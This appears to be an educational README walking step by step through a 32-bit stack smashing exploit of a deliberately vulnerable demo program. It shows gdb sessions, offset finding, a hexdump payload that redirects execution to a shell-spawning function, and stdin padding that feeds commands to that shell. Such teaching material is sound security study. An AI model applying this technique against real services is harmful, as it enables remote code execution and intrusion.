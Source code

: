 # Stack Smashing Demo

Tested on Ubuntu 16.04 LTS

## Install toolchain for compiling for 32-bit

Since we are smashing the stack like it is 1995 anyway.

```
sudo apt-get install libc6-dev-i386
```

## Enable core dumps

First change the core file block-size limit from its default of 0

```
$ ulimit -c unlimited
```

Then change the `core_pattern` to something sensible. The following
always puts the core dump in the file 'core' but one can use e.g.
"core.%P" instead to append the process id to generate pseudo-unique
file names.

Note the following has to be run as root.

```
$ echo "core" > /proc/sys/kernel/core_pattern
```


## Crash the program, get control of EIP (program counter)

Here we use any long input. By convention we use a big string of AAAAs

````
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````

````
$ ./stackme < input.AAAA
````

````
$ gdb ./stackme core
... gdb output follows ...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
````

Note that the pc is at 0x41414141 ('AAAA') meaning that our input has eneded
up in the pc, so we have control over it.

## Using gdb to understand what is going on

To see how that happens, use gdb to set a breakpoint at the point at which
`copy_name` returns.

Use `list` to see source code and note that return instruction is on line 17.

```
(gdb) b stackme.c:17
Breakpoint 1 at 0x804857b: file stackme.c, line 17.
(gdb) run < input.AAAA
```

Then when the breakpoint hits, note that we are not quite at the `ret`
instruction yet by using `disassemble`.

You can single-step by using `stepi` and `disassemble` to see the pc
advance on each instruction until the `ret` is hit and then confirm the
stack contents using the `x` instruction, at which point it looks like
this:
```
(gdb) x/4xw $esp
0xffffdb4c: 0x41414141	0x41414141	0x0000000a	0xf7fc55a0
``

Note `x/4xw` means print 4 words at the memory addressed by the stack
pointer. In any case, note that the stack pointer (i.e. saved return
address) is now 0x41414141.

## Find the input that ends up being in the pc

The stack buffer is 32 bytes long. The return address turns out to live
at the fourth word after that on my 16.04 VM

This requires modifying some of the AAAAs to e.g. BBBB, CCCC, DDDD and
seeing which one ends up being in the PC

```
$ ./stackme < input.find_offset
```

```
$ gdb ./stackme core
...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x45454545 in ?? ()
```

## Exploit Step 1

In this trivial case, we write the pc so that the program executes
the 'some_function' function which, conveniently, gives us a shell.

gdb can identify the address of 'some_function' wince the program is
compiled -no-pie and so each function has a fixed global address

```
$ gdb ./stackme
...
(gdb) print some_function
$1 = {void ()} 0x804852b <some_function>
```

## Put that address into the input at the right offset

For this I use the 'hexedit' program to edit the input file

Remember it has to go in reverse order because x86 is little endian
So the input to get the program to jump to some_function looks like this
(the following is a hexdump)

```
00000000   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000010   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000020   42 42 42 42  43 43 43 43  44 44 44 44  2B 85 04 08  BBBBCCCCDDDD+...
```

This input is in the file `input.jump_to_func`. When we run the program
with this input note that it doesn't crash anymore and it also doesn't
print the final "Goodbye!" message. This means that the jump to
`some_function` has worked.

```
$ ./stackme < input.jump_to_func
Welcome to level 0

Please enter your name:

Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD+�FFFF
!
```

## Exploit Step 2

Now we need to make our exploit do something. The reason that, when
the input above causes the shell to be invoked, the program does nothing
is because the shell has no input to read. We need to give it some input.
It gets its input from stdin, i.e. from the input file we are iteratively
writing. So our commands to the shell have to go into that input.

(Note: these commands are *not* what is meant by the term "shellcode".
Shellcode is binary code that causes the program to execute a shell. Our
program already has a function for doing that, so we don't need to write
any shellcode. What we are writing here are textual commands that will be
read by the shell once it runs that instructs the shell to do something
on our behalf.)

It turns out that when the first data is read from stdin, internally
the kernel tries to read 4096 bytes of input. Then after the `execve`,
when the shell is running, the shell tries to read more 
input from stdin. Therefore, to reliably get the shell to read our commands,
we need to put them in the input file after the first 4096 bytes of input.

You can confirm this by running `strace ./stackme < input.jump_to_func`
and looking through the `strace` output of all the system calls. Look
especially for calls of the form `read(0,...)` which are reads to stdin,
and `execve` which are executions of new binaries.

```
$ strace ./stackme  < input.jump_to_func  2>&1 | grep 'read(0\|execve'
execve("./stackme", ["./stackme"], [/* 67 vars */]) = 0
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 53
execve("/bin/sh", NULL, NULL)           = 0
read(0, "", 8192)                       = 0
```

We can get our shell commands into the input therefore by padding the
input with 4096 ASCII NUL charcters (byte 0x0 -- i.e. 4096 zero bytes).
These will be ignored by the shell anyway if it reads any. Our commands
can then come after that.

Make a file `zeros` with 4096 zero bytes in it:
```
$ dd if=/dev/zero of=zeros bs=4096 count=1
```

Make a file `shell_commands` with your shell commands in it.

Then stich these together with the input that jumps to `some_function`
and put the results into the file `input.exploit`:

```
$ cat input.jump_to_func zeros shell_command > input.exploit
```

```
$ ./stackme < input.exploit
```

Your shell commands should then be executed.

Of course you could have executed them yourself. But suppose
`stackme` was running over the network and you could give it input remotely.
You would now have a working shell on the remote computer.









